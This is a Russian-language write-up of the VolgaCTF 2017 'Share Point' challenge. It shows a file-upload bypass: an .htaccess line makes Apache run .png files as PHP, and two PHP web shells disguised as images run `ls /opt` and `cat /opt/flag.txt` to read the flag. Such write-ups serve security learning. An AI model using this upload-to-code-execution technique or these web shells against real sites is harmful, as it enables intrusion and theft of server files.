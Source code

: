 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is **opt**imal

### Solution
Авторизация на сайте выдала себя в самом начале, логин и пароль соответствуют следующим регулярным выражениям:  
`login [\w]{4,}`  
`pass  [\w]{8,}`

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)

Так как сайт связан с загрузкой файлов, проверяем какие форматы он принимает.  
Грузим пустой файл index.php для проверки и видим, что нам отказано.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)

Ладно, пробуем загрузить файл с расширением "png".

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)

Всё загрузилось, файл видно и он отрабатывается, его можно скачать или посмотреть.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)

Были проведены попытки загрузить файл с расширением "png" с кодом PHP внутри, путем подмены названия файла в программе перехвата трафика Charles. Сайт всё также не позволил загрузить, так как проверка стояла после загрузки файла.  
Пробуем другой вариант. В ответах сервера мы видем там стоит Apache:

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_9.png)

Загружаем файл ".htaccess"
Этот файл позволяет управлять разными настройками сервера Apache.  
Вот содержимое нашего файла которое говорит серверу отрабатывать файлы формата "png" как PHP код.

[.htaccess](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/.htaccess)

```
AddHandler application/x-httpd-php .png
```
Загрузка прошла успешно, теперь пробуем повторить наши действия с загрузкой изображения с PHP кодом.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)

После подсказки о расположении флага, где жирным было выделено его расположение, травим туда наш код:

[ls.png](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/ls.png):

```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```

Пытаемся открыть наш файл, возвращаемся назад и видим, что наш скрипт сработал, создался файл "ls.txt" с содержимым "/opt":

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)

В этой дирректории лежит файл с интересующим нас названием, отправляем второй файл с аналогичным содержанием, что бы его прочитать:

[cat.png](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/cat.png):

```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
В ответ получаем на флаг:

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
